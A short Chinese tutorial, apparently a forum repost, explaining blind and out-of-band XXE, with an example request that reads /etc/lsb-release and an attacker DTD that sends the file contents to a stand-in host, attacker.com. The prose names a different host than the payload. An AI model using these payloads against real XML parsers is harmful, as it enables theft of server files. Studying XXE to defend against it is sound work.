 # Blind XXE 与 OOB-XXE

> 原文：[https://www.zhihuifly.com/t/topic/3591](https://www.zhihuifly.com/t/topic/3591)

### Blind XXE 与 OOB-XXE

一般xxe利用分为两大场景：有回显和无回显。有回显的情况可以直接在页面中看到Payload的执行结果或现象（**带内** [XML外部实体（XXE](https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/)），即攻击者可以发送带有XXE有效负载的请求并从包含某些数据的Web应用程序获取响应），无回显的情况又称为blind xxe，可以使用外带数据通道提取数据即带外XML外部实体（OOB-XXE）。

以下是攻击者如何利用参数实体使用带外（OOB）技术窃取数据的示例。

request:

```
POST http://example.com/xml HTTP/1.1 `<!DOCTYPE data [

<!ENTITY % file SYSTEM

“file:///etc/lsb-release”>

<!ENTITY % dtd SYSTEM

“[http://attacker.com/evil.dtd](http://attacker.com/evil.dtd)”>

%dtd;

]>

<data>&send;</data>` 
```

攻击者DTD

```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?collect=%file;'>">
%all; 
```

XML解析器将首先处理`%file`加载文件的参数实体`/etc/lsb-release`。接下来，XML解析器将在**http://www.0-sec.org/evil.dtd**向攻击者的DTD发出请求。

一旦处理了攻击者的DTD，`all%`参数实体将创建一个名为**＆send**的**通用**实体**;** ，其中包含一个包含文件内容的URL（例如http://www.0-sec.org/?collect=DISTRIB_ID=Ubuntu …）。最后，一旦URL构造的`&send`; 实体由解析器处理，解析器向攻击者的服务器发出请求。然后，攻击者可以在其结尾处记录请求，并从记录的请求中重建文件的内容。
